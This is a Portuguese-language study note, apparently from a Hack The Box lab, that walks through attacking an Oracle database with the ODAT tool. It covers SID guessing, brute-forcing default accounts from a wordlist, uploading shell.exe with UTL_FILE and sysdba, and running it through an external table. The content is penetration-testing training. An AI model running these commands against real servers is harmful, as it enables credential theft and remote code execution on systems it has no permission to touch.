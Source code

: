 Oracle
========================

https://github.com/quentinhardy/odat/blob/master-python3/README.md

Instalar o standalone

https://github.com/quentinhardy/odat/releases/

    python odat.py -h

## SID guesser

Obtendo SID:

    python odat.py sidguesser -s 10.129.125.94 -p 1521
    
## Wordlist Oracle

    /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt

Preparando para o brute force com o "odat"

    sed -i 's/ /\//g' /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/hack_the_box/silo/oracle_default_userpass.txt

O formato do arquivo deve ser:

login/passsword
teste/password123
.
.
.
    
## Bruteforce
Podemos realizar testes de força bruta:


    python odat.py passwordguesser -s 10.129.125.94 -p 1521 --accounts-file /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/hack_the_box/silo/oracle_default_userpass.txt
    

Opção com usuário em um arquivo e password em outro

    odat passwordguesser -s 10.10.10.82 -d 'XE' --accounts-files login_certo.txt password_certo.txt

## File Upload

Uma vez com o SID + Conta válida no banco, podemos conduzir testes mais agressivos:

    python odat.py utlfile -s 10.129.95.188 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/hack_the_box/silo/shell.exe

Caso o usuário não possua permissão, podemos utilizar a flag --sysdba

    python odat.py utlfile -s 10.129.95.188 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/hack_the_box/silo/shell.exe --sysdba

## File execution
Para executar o payload que subimos na máquina, podemos considerar o seguinte comando:
    
    python3 odat.py externaltable -s 10.129.95.188 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba